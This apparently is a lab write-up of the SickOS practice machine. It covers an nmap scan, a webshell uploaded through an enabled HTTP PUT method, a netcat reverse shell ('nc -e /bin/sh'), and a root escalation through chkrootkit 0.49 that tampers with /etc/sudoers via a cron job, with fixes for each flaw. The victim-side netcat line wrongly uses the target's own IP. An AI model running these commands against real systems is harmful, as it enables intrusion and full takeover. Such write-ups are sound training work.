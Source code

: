 # Enumeration:
Started with an nmap scan to enumerate the box:
```bash
# Nmap 7.92 scan initiated Thu Jun  2 19:19:53 2022 as: nmap -sS -sV -A -p- -oN nmap.txt 192.168.65.136
Nmap scan report for 192.168.65.136
Host is up (0.00049s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: lighttpd/1.4.28
MAC Address: 00:0C:29:6B:47:49 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.16 - 4.6, Linux 3.2 - 4.9, Linux 4.4
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.49 ms 192.168.65.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun  2 19:21:53 2022 -- 1 IP address (1 host up) scanned in 120.22 seconds
``` 
</br>

**Initial Shell Vulnerability Exploited:** </br>
Found /test directory with dirbuster directory fuzzing: </br>
![dirbuster_scan](images/sickos/dirbuster_scan.png) </br>
Main Page was empty, I decided to check the HTTP permission methods on the server side, with
Burpsuite: </br>
![burpsuite_http_methods](images/sickos/burpsuite_http_methods.png) </br>

I replaced ‘GET’ with OPTIONS and I could see at the response some request methods that should have
been disallowed, The most interesting one is the ‘PUT’ method: </br>
**PUT** is used to send data to a server to create/update a resource, that means that we could upload files into the /test directory.
</br>
I uploaded a webshell: </br>

![webshell_upload](images/sickos/webshell_upload.png) </br>
![webshell_poc](images/sickos/webshell_poc.png) </br>
I got a reverse shell with netcat: </br>
```bash
Attacker side: nc -nlvp 443
Victim side: nc -e /bin/sh 192.168.65.136 443
```
</br>
I used port 443 because the machine had port restriction, port 443 is commonly used for web traffic, so i tried it out and it worked.
</br>

**Vulnerability Explanation:** The HTTP PUT method is normally used to upload data that is saved on the server
at a user-supplied URL. If enabled, an attacker may be able to place arbitrary, and potentially
malicious, content into the application. </br>
Put method is usually disallowed, because it might lead to unrestricted file
upload and an attacker could upload a reverse shell. </br>
**Vulnerability Fix:** Enable only HTTP methods on your web server which are necessary for your
application to run. Use only GET and POST methods for all HTTP requests where
possible. </br>
If you need any insecure HTTP methods to be enabled on your server, make sure
they are properly authorized and available only for specific resources. This
way you’ll prevent any malicious usage of those. </br> </br>
**Initial Shell Screenshot:** </br>
![initial_shell_poc](images/sickos/initial_shell_poc.png) </br>

# Privilege Escalation:
I used LinPeas Script for enumeration: </br>
![linpeas_enum](images/sickos/linpeas_enum.png) </br>
From all of the cronjobs, chkrootkit stands out. </br>
I found a privilege escalation exploit on [Exploit-DB](https://www.exploit-db.com/exploits/33899) </br>
he exploit is for Chkrootkit version 0.49, so I checked the version of this tool on the machine: </br>
![chkrootkit_version](images/sickos/chkrootkit_version.png) </br>
This version is vulnerable. </br>
First, I created a file inside of the /tmp/update directory with a bash command and made it executable: </br>
```echo ‘touch /tmp/exploit’ > update``` </br>
Then I gave it ‘777’ permissions with: ```chmod 777 update``` </br>
And waited until the cron job ran. </br>
![cronjob_root](images/sickos/cronjob_root.png) </br>
Knowing the previous command executed, I could add my current user to the sudoers file and get root
privileges: </br>
```echo “chmod 777 /etc/sudoers” > update``` </br>
Then I gave the file this permissions to make it editable: </br>
```echo www-data ALL=(ALL)NOPASSWD: ALL >> etc/sudoers``` </br>
In order to append that to the sudoers file, which will eventually add us to the sudoers and grant us root
privileges. </br>
and then I had to change again the permissions for the sudoers file, because otherwise It wouldn't work: </br>
```echo “chmod 440 /etc/sudoers” > update``` </br>
**Vulnerability Explanation:** </br>
chkrootkit:
chkrootkit is a tool to locally check for signs of a rootkit, the vulnerability
in the chkrootkit package, and it may allow local attackers to gain root access
to a box in certain configurations (/tmp not mounted noexec). The vulnerability
is located in the function slapper() in the shell script chkrootkit. </br>
**Vulnerability Fix:** Upgrade to the latest version of chkrootkit (0.50 or later), available from the
chkrootkit Web site. </br> </br>
**Proof of screenshot:** </br>
![pe_poc](images/sickos/pe_poc.png)
